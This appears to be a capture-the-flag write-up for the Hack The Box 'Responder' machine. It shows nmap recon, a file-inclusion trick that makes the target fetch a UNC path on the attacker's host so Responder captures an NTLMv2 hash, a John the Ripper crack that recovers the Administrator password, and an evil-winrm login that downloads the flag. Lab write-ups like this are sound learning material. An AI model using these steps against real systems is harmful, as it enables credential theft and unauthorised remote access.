




# Responder


# Initial Recon

**Box IP: &#x20;**&#x31;0.129.187.14

#### Ping

```shellscript
$ ping 10.129.187.14
PING 10.129.187.14 (10.129.187.14) 56(84) bytes of data.
64 bytes from 10.129.187.14: icmp_seq=1 ttl=127 time=28.1 ms
64 bytes from 10.129.187.14: icmp_seq=2 ttl=127 time=80.6 ms
64 bytes from 10.129.187.14: icmp_seq=3 ttl=127 time=29.1 ms
```

No firewall blocking pings, TTL makes me think maybe Windows?

#### NMAP

```shellscript
Nmap scan report for 10.129.187.14
Host is up, received echo-reply ttl 127 (0.028s latency).
Scanned at 2025-01-16 21:14:01 EST for 17s

PORT     STATE    SERVICE   REASON          VERSION
80/tcp   open     http      syn-ack ttl 127 Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1

5985/tcp open     http      syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

7680/tcp filtered pando-pub no-response

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (97%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (97%), Windows Server 2019 (91%), Microsoft Windows 10 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.95%E=4%D=1/16%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6789BCFA%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=U)
SEQ(SP=107%GCD=1%ISR=104%TI=I%II=I%SS=S%TS=U)
OPS(O1=M53CNW8NNS%O2=M53CNW8NNS%O3=M53CNW8%O4=M53CNW8NNS%O5=M53CNW8NNS%O6=M53CNNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M53CNW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

```

Was correct on the windows looks like we have web and API ports open

# HTTP (80/TCP)

When we try to navigate to the ip on port 80 we get redirected to unika.htb, need to add this to our host file.


We will explore the webpage to see if there is anything interesting.




Looks like when you change the language of the website it does something interesting and loads another page, wonder if we can do directory transversal?




Wonder if we can get the machine to call back to our attacker box, lets test using\\\\\<attacker ip>\test.php



That totally works,we can use responder and get the NTLM hash.




Now we can try to crack the password with John

```shellscript
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=netntlmv2 hash 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     

```


# WINRM (5985/TCP)

Now we have the creds we cracked we can try to use evil-winrm and see if we can login.

```
$ evil-winrm -u administrator -p badminton -i 10.129.185.40
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Downloads> cd ../..
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/9/2022   5:35 PM                Administrator
d-----          3/9/2022   5:33 PM                mike
d-r---        10/10/2020  12:37 PM                Public


*Evil-WinRM* PS C:\Users> cd mike/Desktop
*Evil-WinRM* PS C:\Users\mike\Desktop> dir


    Directory: C:\Users\mike\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt


*Evil-WinRM* PS C:\Users\mike\Desktop> download flag.txt
                                        
Info: Downloading C:\Users\mike\Desktop\flag.txt to flag.txt                                       
Info: Download successful!
```

We got the flag!!!
